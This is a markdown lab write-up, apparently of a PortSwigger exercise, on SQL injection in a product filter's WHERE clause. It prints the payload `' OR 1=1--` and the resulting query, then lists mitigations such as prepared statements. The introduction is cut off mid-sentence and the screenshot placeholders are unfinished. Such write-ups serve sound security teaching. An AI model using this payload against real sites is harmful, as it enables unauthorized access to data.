

# Lab: SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data

## 📌 Introduction
This report analyzes a SQL Injection vulnerability in the WHERE clause, which allows attackers to retrieve hidden data from a database. Through a practical 
## 🔍 Lab Scenario
- The application displays products stored in a database.
- Normally, users can only see specific items filtered by a `WHERE` clause.
- The goal is to manipulate this clause to bypass filters and access hidden data.
## 🛠 Exploitation Steps

### ✅ 1. Identify the Injection Point
- The vulnerable parameter is in the URL:
https://web-security-acadimy.net/filter?category=accessories
- This query is executed in the database:
  ```sql
  SELECT * FROM products WHERE category = 'accessories' AND released = 1;
### ✅ 2. Perform SQL Injection
- Modify the URL with an SQL payload:
  ```
  https://vulnerable-site.com/products?category=accessories' OR 1=1--
  ```
- The query now becomes:
  ```sql
  SELECT * FROM products WHERE category = 'accessories' OR 1=1--' AND released = 1;
  ```
- **Effect:** This retrieves **all products**, including hidden ones.
📸 *Before Injection:*  
*(Insert screenshot of normal product list)*  
 !when Injection (when vulnerability.png).

📸 *After Injection:*  
.
## 🛡 Mitigation Strategies
- **Use Prepared Statements** to prevent SQL injection.
- **Validate user inputs** to restrict harmful values.
- **Limit database permissions** to restrict unauthorized access.
## 🔚 Conclusion
This lab demonstrated how an SQL injection in the WHERE clause can expose hidden data. The best defense is **input validation** and **prepared statements**.

---
💡 *For more details, visit:* [PortSwigger Labs](https://portswigger.net/web-security/sql-injection)
